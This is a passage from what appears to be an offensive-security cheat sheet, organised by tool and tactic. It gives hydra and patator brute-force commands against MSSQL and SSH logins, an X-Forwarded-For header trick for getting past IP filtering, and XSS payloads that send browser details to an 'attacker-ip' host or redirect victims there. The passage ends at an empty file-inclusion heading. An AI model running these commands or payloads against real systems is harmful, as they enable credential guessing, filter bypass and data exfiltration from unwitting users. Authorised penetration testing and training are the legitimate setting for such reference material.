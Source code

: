 ## bruteforce mssql
- `hydra -l sa -P ../creds/pass.txt target-ip -s target-port mssql`

---

# patator
- service: ssh
- tactics: credential_access

## bruteforce ssh
- `patator ssh_login host=target-ip port=22 user=username password=FILE0 0=/opt/SecLists/Passwords/probable-v2-top1575.txt`
- Optional: `-x ignore:fgrep='failed.'`

---

# burp
- service: http
- tactics: enumeration

## bypass ip blacklist / whitelist
- `X-Forwarded-For: $allowed-ip`

---

# xss payloads
- service: http
- tactics: inital_access

## xss enumeration payloads
- `'">><script>new Image().src="attacker-ip:81/bogus.php?output="+navigator.appName;</script>`
- `'">><script>new Image().src="attacker-ip:81/bogus.php?output="+navigator.appVersion;</script>`
- `'">><script>new Image().src="attacker-ip:81/bogus.php?output="+navigator.platform;</script>`

## xss redirect to own webserver
- `'">><script>document.location="http://attacker-ip:81";</script>`
- `'">><script>window.location="http://attacker-ip:81";</script>`

---

# local file inclusion / remote file inclusion
- service: http
- service: php
- tactics: inital_access
